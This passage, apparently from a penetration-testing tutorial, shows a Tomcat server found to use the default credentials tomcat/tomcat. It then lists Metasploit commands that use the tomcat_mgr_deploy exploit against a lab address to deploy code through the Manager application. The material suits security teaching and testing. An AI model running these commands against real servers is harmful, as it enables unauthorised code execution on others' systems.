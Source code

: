 ![](../images/bruteforcing_tomcat_server_using_metasploit_3.png)
Here we get that the server is set to used the default crudential as **username= tomcat** and **passowrd=tomcat**.
##### Exploitation of Manager Application Access using crudential
```
msfconsole -q
msf > search mgr_deploy
msf > use exploit/multi/http/tomcat_mgr_deploy
msf exploit(multi/http/tomcat_mgr_deploy) > show options
msf exploit(multi/http/tomcat_mgr_deploy) > set HttpUsername tomcat
msf exploit(multi/http/tomcat_mgr_deploy) > set HttpPassword tomcat
msf exploit(multi/http/tomcat_mgr_deploy) > set RHOSTS 192.168.1.103
msf exploit(multi/http/tomcat_mgr_deploy) > set RPORT 8180
msf exploit(multi/http/tomcat_mgr_deploy) > run
```